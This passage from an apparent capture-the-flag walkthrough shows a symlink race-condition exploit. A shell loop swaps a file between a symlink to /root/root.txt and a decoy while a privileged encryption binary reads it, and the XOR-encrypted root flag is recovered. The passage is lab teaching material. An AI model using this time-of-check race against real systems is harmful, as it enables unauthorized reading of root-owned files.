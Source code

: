In the first window, I’ll run the following infinite loop:

```

while :; do 
    rm l; 
    ln -sf /root/root.txt l; 
    sleep 3; 
    rm l; 
    echo "oops" > l; 
    sleep 3; 
done

```

This will swap a file, `l`, between a symlink to `root.txt` and a file with the string “oops” in it every three seconds.

In the next window, I’ll start a watch:

```

tester@overflow:/tmp/0xdf$ watch -d -n 1 'ls -l o l'

```

This will run `ls -l o l` every second and give the results. This allows me to see what `l` is currently.

![image-20210930095520033](https://0xdfimages.gitlab.io/img/image-20210930095520033.png)

In the third window, I’ll prep my exploit to encrypt `l`:

```

tester@overflow:/opt/file_encrypt$ python3 /tmp/sploit.py /tmp/0xdf/l /tmp/0xdf/o | ./file_encrypt

```

I’ll want to wait to run this until I see that `l` contains “oops”. Once it switches there, I’ll immediately hit enter. It will `stat` on `l` and see a normal file not owned by root. Then it sleeps three seconds. While that sleep is happening, the three second sleep in the while loop will end, and replace `l` with a symlink. When when the sleep in `file_encrypt` ends, it will read via the symlink `root.txt` and encrypt it.

[This video](https://www.youtube.com/watch?v=ZroW5AHGK6Q) gives a quick demonstration of how all this works:

The resulting file is 33 bytes, the flag xored by 0x9b:

```

tester@overflow:/tmp/0xdf$ ls -l o 
-rw-rw-r-- 1 root tester 33 Sep 30 19:28 o
tester@overflow:/tmp/0xdf$ xxd o
00000000: aaa2 adaa fafe acaf a2ff a3ae a8ad afa8  ................
00000010: fdfd f9aa aba2 a8fa feab aaa8 abaf a8a3  ................
00000020: 91                                       .

```
